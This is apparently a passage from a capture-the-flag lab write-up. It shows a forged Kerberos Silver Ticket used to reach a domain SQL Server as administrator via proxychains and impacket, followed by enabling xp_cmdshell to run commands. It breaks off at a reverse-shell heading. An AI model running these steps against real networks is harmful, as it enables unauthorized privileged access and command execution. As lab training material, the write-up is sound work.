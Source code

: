 - Creates a forged TGS ticket for the SQL Server service
- Impersonates the `administrator` user
- Signs the ticket with the `sqlsvc` account's NTLM hash
- The SQL Server will accept this as a valid administrator ticket

#### Authenticated SQL Access

Using the Silver Ticket for privileged SQL access:
```
export KRB5CCNAME=administrator.ccache

klist
Ticket cache: FILE:administrator.ccache
Default principal: administrator@SENDAI.VL

Valid starting       Expires              Service principal
10/21/2025 00:37:57  10/19/2035 00:37:57  sqlsvc/dc.sendai.vl@SENDAI.VL
        renew until 10/19/2035 00:37:57

proxychains impacket-mssqlclient dc.sendai.vl -k -no-pass
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] DLL init: proxychains-ng 4.17
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[proxychains] Strict chain  ...  127.0.0.1:1080  ...  10.129.77.37:1433  ...  OK
[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(DC\SQLEXPRESS): Line 1: Changed database context to 'master'.
[*] INFO(DC\SQLEXPRESS): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (150 7208) 
[!] Press help for extra shell commands
SQL (SENDAI\Administrator  dbo@master)> 
```

### Command Execution
With administrative access, we can now enable and use `xp_cmdshell`:
```
SQL (SENDAI\Administrator  dbo@master)> xp_cmdshell whoami
ERROR(DC\SQLEXPRESS): Line 1: SQL Server blocked access to procedure 'sys.xp_cmdshell' of component 'xp_cmdshell' because this component is turned off as part of the security configuration for this server. A system administrator can enable the use of 'xp_cmdshell' by using sp_configure. For more information about enabling 'xp_cmdshell', search for 'xp_cmdshell' in SQL Server Books Online.
SQL (SENDAI\Administrator  dbo@master)> enable_xp_cmdshell 
INFO(DC\SQLEXPRESS): Line 185: Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE statement to install.
INFO(DC\SQLEXPRESS): Line 185: Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.
SQL (SENDAI\Administrator  dbo@master)> RECONFIGURE
SQL (SENDAI\Administrator  dbo@master)> xp_cmdshell whoami
output          
-------------   
sendai\sqlsvc   

NULL            

SQL (SENDAI\Administrator  dbo@master)>
```
### Reverse Shell
Uploading and executing a PowerShell reverse shell: